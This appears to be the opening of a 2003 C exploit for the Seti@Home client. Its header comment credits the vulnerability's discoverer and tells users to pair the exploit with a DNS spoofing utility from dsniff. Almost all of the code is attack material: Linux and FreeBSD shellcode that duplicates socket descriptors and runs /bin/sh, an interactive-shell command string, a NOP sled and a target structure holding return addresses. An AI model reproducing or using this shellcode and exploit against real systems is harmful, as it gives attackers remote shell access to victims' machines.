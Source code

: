 EXP
---

    /*
       Seti@Home exploit by zillion[at]safemode.org (2003/01/07)

       Credits for the vulnerability go to: SkyLined <SkyLined@edup.tudelft.nl>
       http://spoor12.edup.tudelft.nl/SkyLined%20v4.2/?Advisories/Seti@home

       Use this exploit in combination with a DNS spoofing utility such as the one
       provided in the Dsniff package. http://naughty.monkey.org/~dugsong/dsniff/

    */

    #include <unistd.h>
    #include <sys/stat.h>
    #include <string.h>
    #include <sys/socket.h>
    #include <netinet/in.h>
    #include <errno.h>
    #include <stdio.h>

    #define NOP 0x41
    #define EXEC "TERM=xterm; export TERM=xterm;exec /bin/sh -i"
    #define EXEC2 "id;uname -a;"

    char linux_shellcode[] =

       /* dup */
       "\x31\xc9\x31\xc0\x31\xdb\xb3\x04\xb0\x3f\xcd\x80\xfe\xc1\xb0"
       "\x3f\xcd\x80\xfe\xc1\xb0\x3f\xcd\x80"


       /* execve /bin/sh */
       "\x31\xdb\x31\xc9\xf7\xe3\x53\x68\x6e\x2f\x73\x68\x68\x2f\x2f"
       "\x62\x69\x89\xe3\x52\x53\x89\xe1\xb0\x0b\xcd\x80";


    char freebsd_shellcode[] =

      "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb1\x03\xbb\xff\xff\xff\xff"
      "\xb2\x04\x43\x53\x52\xb0\x5a\x50\xcd\x80\x80\xe9\x01\x75\xf3"

      "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
      "\x62\x69\x6e\x89\xe3\x50\x53\x50\x54\x53"
      "\xb0\x3b\x50\xcd\x80";

    char static_crap[] =

       "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90";

    struct target
    {
      int   num;
      char *description;
      char *versions;
      char *type;
      char *shellcode;
      long  retaddress;
      int   bufsize;
      int   offset;
      int   junk;
    };
